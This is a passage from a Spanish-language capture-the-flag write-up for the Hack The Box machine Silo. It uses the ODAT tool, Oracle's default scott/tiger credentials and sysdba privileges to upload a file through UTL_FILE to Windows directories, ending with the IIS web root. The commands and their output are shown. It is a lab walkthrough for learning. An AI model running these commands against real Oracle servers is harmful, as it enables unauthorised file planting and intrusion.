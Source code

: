 Ejecutamos sin el argumento `--sysdba`, le indicamos que vamos a subir un archivo a la ruta `C:\Windows\System32\Temp` llamado `hola.txt` que lo tenemos en nuestra máquina con el nombre `hola.txt`:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --putFile 'C:\Windows\System32\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\System32\Temp folder like hola.txt on the 10.10.10.82 server
[-] Impossible to put the hola.txt file: `ORA-01031: insufficient privileges`
```

Ahora como **sysdba**:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\Windows\System32\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\System32\Temp folder like hola.txt on the 10.10.10.82 server
[-] Impossible to put the hola.txt file: `ORA-29283: invalid file operation ORA-06512: at "SYS.UTL_FILE", line 536 ORA-29283: invalid file operation ORA-06512: at line 1`
```

e.e Cambia el error, pero es un error, probemos otra ruta temporal:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\Windows\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\Temp folder like hola.txt on the 10.10.10.82 server
[+] The hola.txt file was created on the C:\Windows\Temp directory on the 10.10.10.82 server like the hola.txt file
```

Perfecto (o pues eso parece :P), se subio el archivo :)

Sabiendo esto podemos intentar subir algo a la ruta en la que esta el servidor web, si buscamos la ruta por default en Windows tenemos:

![131google_default_pathWebServerWIN](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131google_default_pathWebServerWIN.png)

Probemos ahora con esa ruta y validemos despues en la web:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\inetpub\wwwroot' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\inetpub\wwwroot folder like hola.txt on the 10.10.10.82 server
[+] The hola.txt file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the hola.txt file
```

Bien, la ruta existe, ahora validemosla:
